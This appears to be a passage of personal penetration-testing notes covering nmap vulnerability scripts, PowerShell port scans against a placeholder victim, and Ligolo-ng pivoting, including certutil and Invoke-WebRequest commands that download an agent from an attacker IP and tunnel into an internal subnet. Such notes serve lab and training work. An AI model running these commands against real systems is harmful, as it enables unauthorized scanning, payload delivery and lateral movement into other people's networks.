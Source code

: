 ```sh
nmap --script-help="ftp-*"

#We can also grep the TYPE of script we want and use it like so

cat script.db  | grep "\"vuln\""

sudo nmap --script "vuln" 192.168.xx.xx

#give details about the script
nmap --script-help=clamav-exec.nse

```


## Windows Port Scanning

This is a way to live off the land in Windows and perform a port scan.

```powershell
# perform full TCP connection to test if port open
Test-NetConnection -Port 445 $VICTIM_IP

# scanning multiple ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("VICTIM_IP", $_)) "TCP port $_ is open"} 2>$null

# limited ports to search
22,25,80,135,139,445,1443,3306,3389,5432 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("VICTIM_IP", $_)) "TCP port $_ is open"} 2>$null
```












# IGOL-NG

Use this guide:
https://4pfsec.com/ligolo

```shell
#windows
Invoke-WebRequest -Uri 192.168.45.230/windowsprivesc/ligoagent.exe -OutFile agent.exe
certutil -f -split -urlcache http://192.168.49.106/windowsprivesc/ligoagent.exe agent.exe

sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up

./proxy -selfcert
./agent -connect 192.168.49.106:11601 -ignore-cert

#add a route
sudo ip route add 172.16.237.0/24 dev ligolo

#remove a route 
sudo ip route del 172.16.237.0/24 dev ligolo

#MONITOR connection
IP="172.16.106.100"; PORT=445; TIMEOUT=5;SLEEP=20;while true; do echo "================================="; date;timeout $TIMEOUT nc -nvz $IP $PORT || echo -e "no connection to $IP $PORT";sleep $SLEEP;done
```
